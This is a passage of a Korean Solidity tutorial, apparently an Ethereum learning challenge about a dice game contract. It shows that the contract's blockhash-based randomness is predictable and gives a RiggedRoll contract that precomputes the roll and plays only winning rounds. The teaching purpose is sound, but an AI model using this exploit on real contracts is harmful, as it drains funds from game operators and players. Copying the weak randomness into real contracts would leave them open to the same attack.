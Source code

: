 📱 Vercel이 제공하는 url 로 접속해서 애플리케이션 열기

---

## 🚩 Step 2. 주사위 롤

`Dice Game` 에서 `Roll the dice!` 버튼을 클릭해 주사위를 굴린다.

사용자가 주사위를 굴릴 때 참가비로 0.002 ETH 를 지불하고, `0,1,2,3,4,5`가 나오면 현재 상금 금액을 획득 한다.

사용자가 보낸 0.002 ETH 중 40%는 현재 상금에 추가되고, 나머지 60%는 미래 상금을 마련하기 위해 `DiceGame.sol` 컨트랙트에 남아있다.

<img src='https://github.com/LudiumAgwn/road-to-bangkok/raw/main/%EC%86%94%EB%A6%AC%EB%94%94%ED%8B%B0%20%EB%94%94%EC%95%B1%20%EB%A7%8C%EB%93%A4%EA%B8%B0/%EB%AF%B8%EC%85%98/images/roll_the_dice.png' width='600px'/>

> ⚠️ 0.002 ETH 보다 적으면 `rollTheDice()` 함수가 실행되지 않는다.

---

## 🚩 Step 3. 게임 조작

위의 `rollTheDice()` 함수에서 주사위 결과 값을 도출할 때 이전 블록의 해시 값과 컨트랙트 주소, nonce 값을 사용한다.

```solidity
// DiceGame.sol

function rollTheDice() public payable {

  // ...

  // 이전 블록의 해시 값
  bytes32 prevHash = blockhash(block.number - 1);
  // 해시 값을 사용하여 난수를 생성
  bytes32 hash = keccak256(abi.encodePacked(prevHash, address(this), nonce));
  // 주사위 결과 값을 0에서 15 사이로 설정
  uint256 roll = uint256(hash) % 16;

  // ...

}
```

따라서 이 세 개의 값을 미리 알고 있다면, 결과 값을 미리 예측할 수 있다.

추가적인 컨트랙트 `RiggedRoll.sol` 에 결과 값을 먼저 예측한 뒤 성공했을 때만 `DiceGame.sol`의 `rollTheDice()`를 실행하게 하는 함수를 작성한다.

```solidity
function riggedRoll() public payable {
    require(address(this).balance >= .002 ether, "Not enough ether");

    // DiceGame.sol의 rollTheDice 함수와 동일하게 주사위 결과 값 도출
    bytes32 prevHash = blockhash(block.number - 1);
    bytes32 hash = keccak256(abi.encodePacked(prevHash, address(diceGame), diceGame.nonce()));
    uint256 roll = uint256(hash) % 16;
    console.log("\t", "   Rigged Roll", block.number, roll);

    // 0,1,2,3,4,5가 나오면 DiceGame.sol의 rollTheDice 실행
    require(roll <= 5, "Failed");
    diceGame.rollTheDice{value: msg.value}();
}
```
